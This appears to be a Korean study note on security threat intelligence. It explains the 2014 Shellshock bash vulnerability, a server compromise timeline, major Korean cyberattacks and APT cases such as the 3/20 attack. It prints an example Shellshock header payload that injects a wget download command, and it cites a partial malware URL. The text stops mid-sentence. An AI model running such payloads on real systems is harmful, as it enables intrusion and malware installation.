 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

2013년 3월 20일 국내 언론사 몇 곳의 업무 관련 시스템들이 동시 다발적으로 파괴되는 사태가 발생핬다. 이로 인해 실제로 방송이 중단되기도 했다.

* 2010년 이후 발생된 주요 사이버 공격 사례

  11/3/4 : 청와대, 금융 기관, 네이버 대상 DDoS 공격
  11/4/12 : 농협 전산망 마비
  13/3/20 : 주요 언론사 및 금융기관 전산망 동시 장애
  13/6/25 : 청와대 홈페이지 변조, 언론사 및 정부 전산센터 공격
  14/12/15 : 한국수자력발전 내부 정보 유출 공개

지능형 지속 공격은 처음 공격에서 최종 목표를 실행하기까지 최소 6개월 이상 관리자나 사용자 몰래 활동한다.

2015년 미국의 FBI 수배자 명단에 중국의 61398 부대 장교가 올라간 사건이 있었다. 이 장교들의 실명과 부대 명칭은 외국계 보안 업체를 통해 실체가 밝혀지기 시작했고 MANDIANT APT 1 보고서를 통해 APT 기법을 사용하는 해커 그룹의 특징과 실체를 구체적으로 밝혀냈다.

3/20 사태로 돌아가자. 공격 당시 공격자는 이미 확보했던 정보를 이용해 자동화된 스크립트 형태로 시스템 파괴 명령을 자동으로 실행시켰다. 방화벽 로그와 침해 시스템의 시스템 로그, 침입탐지 시스템 로그 등 사건에 연관된 모든 보안 로그를 분석했고, 일련의 추적을 통해 공격자의 타임 테이블을 구성했다.

공격 특징은 사용자 대역, 사무실 대역에 대한 악성코드 감염 / 감염된 내부 시스템을 경유해 서버 하드 디스크 파괴이다.

타임 테이블은

